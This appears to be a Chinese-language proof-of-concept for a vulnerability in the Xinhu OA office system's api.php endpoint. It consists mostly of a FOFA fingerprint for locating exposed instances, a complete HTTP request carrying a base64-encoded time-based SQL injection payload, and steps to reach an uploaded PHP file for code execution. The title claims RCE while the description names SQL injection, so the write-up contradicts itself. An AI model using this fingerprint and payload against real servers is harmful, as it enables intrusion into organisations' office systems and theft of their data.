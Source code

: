 # 信呼OA办公系统后台api.php接口存在RCE

信呼OA办公系统是一个开源的在线办公系统。 信呼OA办公系统uploadAction存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## fofa

```java
icon_hash="1652488516"
```

## 第一步

```javascript
GET /xhoa/api.php?a=getmfilv&m=upload|api&d=task&fileid=1&fname=MScgYW5kIHNsZWVwKDYpIw== HTTP/1.1  
Host:  
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"  
Sec-Fetch-Dest: empty  
Accept: application/json, text/javascript, */*; q=0.01  
Referer: http://127.0.0.1:81/xhoa/  
Cookie:   
Sec-Fetch-Mode: cors  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36  
Accept-Encoding: gzip, deflate, br, zstd  
Sec-Fetch-Site: same-origin  
Accept-Language: zh-CN,zh;q=0.9  
X-Requested-With: XMLHttpRequest  
sec-ch-ua-mobile: ?0  
sec-ch-ua-platform: "Windows"  
```

![image](https://github.com/user-attachments/assets/0f95005f-8c4f-45a0-bed2-eba493c7b87a)

## 第二步

```javascript
访问：http://xxxx/api.php?a=getmfilv&m=upload|api&d=task&fileid=返回的id值
```

![image](https://github.com/user-attachments/assets/ba6f7a2e-8c59-4c08-a87f-8f778d2ee1c4)

## 第三步
```
通过前面第二步获取的地址直接访问即可
http://localhost/upload/2025-03/26_rocktpl5661_1363.php
```


